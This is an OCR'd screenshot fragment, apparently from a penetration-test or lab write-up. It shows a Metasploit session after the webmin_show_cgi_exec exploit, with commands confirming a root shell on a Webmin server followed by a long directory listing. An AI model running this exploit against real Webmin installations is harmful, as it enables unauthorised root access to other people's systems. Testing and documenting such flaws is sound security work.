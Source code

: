     msf6 exploit(unix/webapp/webmin_show_cgi_exec) > sessions -i 2
    [*] Starting interaction with 2...
    
    pwd
    /usr/share/webmin/file/
    whoami
    root
    ls
    ACLEditor.class
    ACLEntry.class
    ACLWindow.class
    AttributeEditor.class
    AttributesWindow.class
    BorderPanel.class
    BorderPanel.java
    CHANGELOG
    CbButton.class
    CbButton.java
    CbButtonCallback.class
    CbButtonGroup.class
    CbColorButton.class
    CbColorButton.java
    CbColorWindow.class
    CbColorWindow.java
    CbColorWindowCallback.class
    CbColorWindowCube.class
    CbColorWindowSwatch.class
    CbImageChooser.class
    CbImageChooser.java
    CbImageFileWindow.class
    CbScrollbar.class
    CbScrollbar.java
    CbScrollbarArrow.class
    CbScrollbarCallback.class
    CbSlider.class
    CbSlider.java
    CbSliderCallback.class
    ContentsWindow.class
    DFSAdminExport.class
    DeleteWindow.class
    DownloadDirWindow.class
    EXTWindow.class
    EditorWindow.class
    ErrorWindow.class
    ErrorWindow.java
    ExtractWindow.class
    FileAttribute.class
    FileManager.class
    FileManager.java
    FileNode.class
    FileSystem.class
    FindReplaceWindow.class
    FixedFrame.class
    FixedFrame.java
    GotoWindow.class
    GrayPanel.class
    GrayPanel.java
    Hierarchy.class
    Hierarchy.java
    HierarchyCallback.class
    HierarchyNode.class
    HistoryWindow.class
    ImagePanel.class
    LinedPanel.class
